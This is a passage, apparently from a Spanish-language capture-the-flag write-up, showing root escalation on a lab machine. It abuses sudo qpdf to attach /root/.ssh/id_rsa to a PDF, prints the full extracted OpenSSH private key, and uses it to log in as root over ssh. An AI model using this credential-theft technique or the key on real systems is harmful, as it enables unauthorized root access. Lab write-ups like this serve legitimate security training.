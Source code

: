 ~~~bash
consuela@iclean:~$ sudo qpdf --empty --add-attachment /root/.ssh/id_rsa -- id_rsa_pub.pdf
consuela@iclean:~$ ls
id_rsa_pub.pdf  user.txt
~~~

- Pasándolo a nuestra máquina, bastaría extraer este:

~~~bash
❯ cat _id_rsa_pub.pdf.extracted/209

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
~~~

- Y asignarle los permisos necesarios (`209` es el nombre de la llave, solo cámbienlo para que no sea tan confuso xd):

~~~bash
❯ chmod 600 209
~~~

- Y nos conectamos por ssh:

~~~bash
❯ ssh root@capiclean.htb -i 209
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

<------ TRASH ------>

Last login: Mon Apr 15 09:49:22 2024 from 10.10.14.92
root@iclean:~# 
~~~
